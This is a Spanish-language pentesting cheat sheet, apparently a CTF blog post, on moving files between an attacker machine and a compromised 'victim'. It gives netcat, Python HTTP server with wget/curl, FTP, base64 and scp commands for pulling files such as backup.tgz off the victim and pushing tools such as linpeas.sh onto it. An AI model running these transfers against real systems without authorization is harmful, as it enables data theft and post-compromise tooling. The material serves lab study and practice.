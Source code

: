 ```yaml
---
title: Pasar Archivos
author: guiseporaki
date: 2023-02-24
categories: [Linux, Cajon Verde]
tags: [Linux, Transferencia Archivos]
---
```

## Maneras de pasar archivos entre máquinas

En máquina víctima recuerda pasarte a un directorio con permiso de escritura, tanto en `/tmp` como en `/shm` no hay problema.

---

Con netcat. Para pasar archivo de máquina víctima a la mía.

En mi máquina, usaremos el puerto 4448 por ejemplo:
```  
> nc -nlvp 4448 > backup.tgz  
```  
Ahora desde la víctima:  
```
> nc MIIP 4448 < backup.tgz
```
Siguiendo con netcat pero ahora al revés, para enviar de mi máquina a la víctima:

En máquina víctima:
```
> nc -nlvp 4448 > linpeas.sh
```
En mi máquina:
```
> nc IPVICTIMA 4448 < linpeas.sh
```

-----------------
Ahora desde servidor **python**:  
Me creo servidor  
```
> python3 -m http.server <puerto> 
```
Y ya en máquina víctima desde  una carpeta con capacidad de escritura(/tmp o /shm por ejemplo):  
```
> wget http://<miIp>:<puerto>/<archivo> (si es puerto 80 no hace falta ponerlo).
```

Ó;  
```
> curl http://miIp/<archivo> --output <ruta>
```
-------------------
Desde conexión **ftp** establecida en máquina víctima:  
```
> prompt off (para que no pregunte)
> mget * (descargar todo)
> exit 
```
Si quisiera subir al ftp víctima:  
```
put  <nameArchivo> (archivo que este en carpeta desde donde me conecté)
```
Y ya la tendríamos sin hacer nada más.

-----------------
Si no hubiera ni nc, ni curl, ni wget:  
```
> base64 -w 0 <nombreArchivo> | xclip -sel clip
```
Ó;  
```
> base64 -w 0 <name>; echo (y copias)
```
Y en máquina destino:
```
> echo <cadenaCopiada> | base64 -d > <name>
```
Si es ejecutable recuerda: 
```
> chmod +x <ejecutable>
```
Contexto: lo hicimos en GOODGAMES para script de escaneo de puertos

----------------------
Si te sabes las credenciales por **ssh** tenemos la herramienta scp:  
```
> scp <user>@><ip>:<rutaDesdeElHomedelUser> <nameExportacion>
por ejemplo:
> scp tomy@10.10.11.152:user.txt user.txt
```
----------------------
Pasar archivos de un windows a un linux, mi parrot por ejemplo, visto JSON. Esta información la situaremos en el Post de PasarArchivos en carpeta Windows.
